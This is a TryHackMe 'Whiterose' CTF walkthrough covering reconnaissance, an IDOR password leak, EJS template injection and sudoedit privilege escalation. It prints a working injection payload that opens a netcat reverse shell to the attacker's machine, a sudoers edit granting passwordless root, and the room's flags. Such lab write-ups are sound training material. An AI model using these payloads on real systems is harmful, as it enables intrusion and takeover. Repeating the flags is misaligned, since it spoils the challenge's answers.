 ```yaml
---
title: "TryHackMe Whiterose Writeup"
date: 2025-02-01
categories: [TryHackMe]
tags: [IDOR, CTF, Cybersecurity, TryHackMe, Writeup, Walkthrough]
description: My write up for whiterose room on TryHackMe.
image:
  path: /assets/img/posts/2025-02-01-THM-Whiterose/cover.png
---
```


# Whiterose - CTF

## Target Information
- **IP Address**: `10.10.49.249`
![alt text](/assets/img/posts/2025-02-01-THM-Whiterose/0.png)
## Credentials
- **Username**: Olivia Cortez
- **Password**: olivi8

---

## Enumeration

### RustScan
**Command:**  
```bash
rustscan -a 10.10.49.249
```
**Results:**
```
Open 10.10.49.249:22
Open 10.10.49.249:80
```

### Nmap
**Command:**  
```bash
nmap -sV -A -p 22,80 10.10.49.249
```
**Results:**
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### FFUF (Fuzzing)
#### Subdirectory Discovery (No Results)
**Command:**
```bash
ffuf -u http://cyprusbank.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```

#### Subdomain Discovery (Found `admin`)
**Command:**
```bash
ffuf -u http://cyprusbank.thm/ -H "HOST: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 1
```

---

## Exploitation

### SQL Injection (Not Working)
Tried:
```sql
Tyrell'
Tyrell' OR 1=1 -- -
```

### URL Manipulation - Message Dumping
Found URL:
```
http://admin.cyprusbank.thm/messages/?c=5
```
By modifying the `c` parameter to `100`, all messages were revealed
![alt text](/assets/img/posts/2025-02-01-THM-Whiterose/1.png) 
including a password for **Gayle Bev**:
```
p~]P@5!6;rs558:q
```

### Login as Gayle Bev
After logging in as **Gayle Bev**, all phone numbers were displayed. Searching for **Tyrell Wellick** revealed his phone number. ![alt text](/assets/img/posts/2025-02-01-THM-Whiterose/2.png)

#### Answer to Question 1:
**Tyrell Wellick's phone number:** `842-029-5701`

### Modifying User Credentials
After logging in as **Gayle Bev**, I was able to modify the customer name and password. Testing with:
```
Name: test
Password: test123
```
An alert displayed the updated credentials.

![alt text](/assets/img/posts/2025-02-01-THM-Whiterose/3.png) 
### BurpSuite Injection
By intercepting requests with BurpSuite, I tested injecting:
```
name='`
```
This caused a **ReferenceError** at:
```
/home/web/app/views/settings.ejs:14
```
![alt text](/assets/img/posts/2025-02-01-THM-Whiterose/4.png) 

Using **EJS Server-Side Template Injection (SSTI)**, I referenced this resource: [EJS, Server side template injection RCE](https://eslam.io/posts/ejs-server-side-template-injection-rce/)


### Reverse Shell Injection
Injected payload:
```bash
name=test&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.4.122.138 1337 -e bash');s
```
After obtaining a shell, I upgraded it with:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Navigating to the `web` directory, I found **user.txt**:
```
THM{4lways_upd4te_uR_d3p3nd3nc!3s}
```
#### Answer to Question 2:
**User.txt Flag:** `THM{4lways_upd4te_uR_d3p3nd3nc!3s}`

---

## Privilege Escalation
### Checking Sudo Permissions
Ran:
```bash
sudo -l
```
Found:
```
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm (no password required)
```
Using **Sudoedit Privilege Escalation**, I referenced this resource:
[Sudoedit Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/)

Exploiting using:
```
export EDITOR="vim -- /etc/sudoers"
```
Added:
```
web ALL=(ALL:ALL) NOPASSWD: ALL
```
Saved the file, then ran:
```bash
sudo bash
```
![alt text](/assets/img/posts/2025-02-01-THM-Whiterose/5.png)

Gained **root access** and retrieved **root.txt**:
```
THM{4nd_uR_p4ck4g3s}
```
#### Answer to Question 3:
**Root.txt Flag:** `THM{4nd_uR_p4ck4g3s}`

